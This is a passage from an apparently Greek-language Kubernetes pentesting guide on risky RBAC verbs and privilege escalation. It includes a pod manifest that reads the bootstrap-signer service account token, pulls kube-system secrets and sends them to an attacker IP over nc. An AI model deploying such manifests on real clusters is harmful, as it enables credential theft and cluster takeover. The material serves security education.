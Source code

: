 Στο RBAC, ορισμένες άδειες ενέχουν σημαντικούς κινδύνους:

1. **`create`:** Παρέχει τη δυνατότητα δημιουργίας οποιουδήποτε πόρου του cluster, θέτοντας σε κίνδυνο την κλιμάκωση προνομίων.
2. **`list`:** Επιτρέπει την καταγραφή όλων των πόρων, ενδεχομένως διαρρέοντας ευαίσθητα δεδομένα.
3. **`get`:** Επιτρέπει την πρόσβαση σε μυστικά από λογαριασμούς υπηρεσιών, θέτοντας σε κίνδυνο την ασφάλεια.
```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
name: api-resource-verbs-all
rules:
rules:
- apiGroups: ["*"]
resources: ["*"]
verbs: ["create", "list", "get"]
```
### Pod Create - Steal Token

Ένας επιτιθέμενος με άδειες να δημιουργήσει ένα pod, θα μπορούσε να συνδέσει έναν προνομιούχο Λογαριασμό Υπηρεσίας στο pod και να κλέψει το token για να προσποιηθεί τον Λογαριασμό Υπηρεσίας. Αποτελεσματικά, κλιμακώνοντας τα προνόμια σε αυτόν.

Παράδειγμα ενός pod που θα κλέψει το token του λογαριασμού υπηρεσίας `bootstrap-signer` και θα το στείλει στον επιτιθέμενο:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: alpine
namespace: kube-system
spec:
containers:
- name: alpine
image: alpine
command: ["/bin/sh"]
args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
serviceAccountName: bootstrap-signer
automountServiceAccountToken: true
hostNetwork: true
```
### Δημιουργία Pod & Διαφυγή

Το παρακάτω υποδεικνύει όλα τα προνόμια που μπορεί να έχει ένα κοντέινερ:

* **Προνομιακή πρόσβαση** (απενεργοποίηση προστασιών και ρύθμιση ικανοτήτων)
* **Απενεργοποίηση namespaces hostIPC και hostPid** που μπορούν να βοηθήσουν στην κλιμάκωση προνομίων
* **Απενεργοποίηση hostNetwork** namespace, δίνοντας πρόσβαση για κλοπή των προνομίων cloud των κόμβων και καλύτερη πρόσβαση σε δίκτυα
* **Σύνδεση hosts / μέσα στο κοντέινερ**

